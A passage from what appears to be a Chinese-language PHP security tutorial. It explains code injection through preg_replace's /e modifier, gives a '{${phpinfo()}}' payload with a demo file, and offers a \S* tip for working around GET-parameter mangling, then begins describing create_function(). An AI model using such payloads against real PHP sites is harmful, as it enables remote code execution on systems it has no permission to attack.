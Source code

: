 上面这段我们需要注意的就是\1,\1在正则表达式是反向引用的意思，简而言之就是指定一个子匹配项。

针对上面案例，我们来个payload：

```php
payload=/?.*={${phpinfo()}}
所以语句就成了这样
preg_replace('/(.*)/ei', 'strtolower("\\1")', {${phpinfo()}});
```

那么我们直接把这段代码放到页面

```php
<?php
    preg_replace('/(.*)/ei', 'strtolower("\\1")', '{${phpinfo()}}');
?>
```

访问页面，结果如下：

![](/images/20200818234802.png)

我们看到成功执行了代码。

但是这里我是直接将这段代码写到了文件里，那么如果我们是通过GET传参得到参数，这里针对上面那个案例就需要注意一点，在通过GET传参时，`.*`会被替换为`_*`导致我们要的正则被替换了，达不到我们的效果，所以这里可用使用一些其他的正则表达式来达到目的，比如通过GET传参时我们的参数可以传入`\S*`从而达到同样目的。所以以后再遇到这个函数的时候，要留个心眼了。不过，这里要补充一点，就是`preg_replace()`函数在PHP 7 后便不再支持，使用`preg_replace_callback()`进行替换了，取消了不安全的`\e`模式。

### create_function()

 `create_function()`用来创建一个匿名函数

```php
create_function( string $args, string $code) : string
```

#### 参数

- string $args	声明的函数变量部分
- string $code	要执行的代码	

#### 返回值

返回唯一的函数名称作为字符串或者返回FALSE错误
